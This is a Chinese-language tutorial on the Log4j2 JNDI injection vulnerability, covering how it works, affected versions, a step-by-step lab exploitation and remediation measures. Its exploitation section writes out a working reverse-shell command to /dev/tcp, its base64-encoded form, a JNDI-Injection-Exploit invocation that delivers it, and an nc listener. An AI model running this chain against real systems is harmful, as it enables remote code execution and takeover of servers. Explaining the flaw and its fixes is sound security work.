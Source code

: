 ## 1.漏洞原理

`Apache Log4j2`是一个应用于java程序的日志记录框架，支持`JNDI协议`。

攻击者通过构造`payload`，一般为`${jndi:ldap:恶意URL/POC}`，在`JNDI`接口lookup查询处进行注入，JNDI会去对应的服务（如LDAP、RMI、DNS等）进行资源查找，由于lookup的出栈未做限制，最终指向攻击者部署好的恶意站点，下载并执行远程恶意代码，造成RCE。

log4j2框架的lookup查询服务提供`{}`字段解析功能，如`${java:version}`输出对应的java版本

## 2.JNDI解析器

JNDI全称Java命名和目录接口（Java Namespace Directory Interface），提供命名服务和目录服务，**允许从指定的远程服务器获取并加载对象，JDNI注入攻击常用LDAP和RMI两种服务**。

jdni日志记录方式如下：

```java
logger.info("system property:${jdni:schema://url}");
```

JDK从URL指定路径下载一段字节流，将其反序列化为java对象（反序列化过程中会执行字节流中包含的程序），作为jndi返回。

## 3.影响版本

Apache Log4j2 2.0 - 2.15.0-rc1

## 4.漏洞利用（JNDI注入反弹shell）

1. 反弹shell指令

`bash -i >& /dev/tcp/192.168.232.129/4444 0>&1`

2.对指令进行base64编码

`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMi4xMjkvNDQ0NCAwPiYx`

3.使用JDNI利用工具[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)生成JNDI链接并启动后端相关服务

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMi4xMjkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.232.129`

4.在攻击机上新开一个窗口进行监听4444端口

`nc -lnvl 4444`

5.发送生成第3步生成的jdni链接到目标环境，可收到反弹shell

## 5.修复方案

* 升级到最新版本 https://logging.apache.org/log4j/2.x/download.html
* 2.10以上版本的log4j可以关闭lookup功能。配置为：log4j2.formatMsgNoLookups = true
* 修改或删除JndiLookup类，禁用 jndi lookup 
* 在WAF中配置规则攻击字符串得特性是 ${jndi:schema://url}，阻断攻击性输入

